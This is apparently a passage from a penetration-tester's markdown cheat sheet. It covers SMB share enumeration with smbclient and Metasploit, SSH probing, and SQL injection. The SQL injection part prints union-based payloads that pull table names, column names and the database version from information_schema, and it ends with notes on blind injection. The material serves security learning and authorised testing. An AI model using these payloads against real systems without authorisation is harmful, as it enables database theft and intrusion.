 * SMBClient - Connect to the share and explore any available files
```bash
# List Shares
smbclient -L \\\\<IP>\\

# Connect to a share
smbclient \\\\<IP>\\<SHARE>
```

* Metasploit
Search auxiliary scripts for version ID
```bash
msf5> auxiliary/scanner/smb/smb_version
```

### SSH
* Document version from nmap and check for vulnerabilities
* Try to connect and see if it gives any info
```bash
ssh <IP> -oKexAlgorithms=+ <Algorithm> -c <cypher>
```

## Find/Exploit Common Web vulnerabilities
### SQL Injection
#### Union [PortSwigger Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
> Useful for search fields
* Finding vulnerable fields  
Throw special characters at it and see if it breaks  
  Double quotes, single quotes, colon, pound sign

Find a search that generates a result, and add:  
  `' or 1=1#` - 1=1 should always evaluate to true, thus returning all of the entries in the db   
  Also, try playing with variations, such as `' or '1'='1`  
> The `union` statement allows us to pull data from other tables and columns that were not initially defined  
>   * Caveat: We can only select as many columns as in the original query, so we're going to have to find that out  

- Basically, we're are going to keep adding null selects to the query until the query works
  ```SQL
  <working query>' union select null,null,null#
  ```
- We can grab info from the query, such as table names, version info, etc.
  Table names
  ```SQL
  <working query>' union select null,null,table_name from information_schema.tables#
  ```
  Column names
  ```SQL
  <working query>' union select null,null,column_name from information_schema.columns#
  ```
  DB Version
  ```SQL
  <working query>' union select null,null,version()#
  ```
#### Blind Injection
Blind injection isn't going to return anything you can see on the screen, you are going to have to capture it somewhere else.  
> Remember you provide to the application is injectable. Post variables, sessions cookies, User-Agent, all injectable
- Use Burp to compare the size of the response to a successful response vs a failed response.
- Testing the post paramters
  * add `'or 1=1` or `and 1=1` (or some variation) to each parameter to see if they are successful
  * Subsring matches  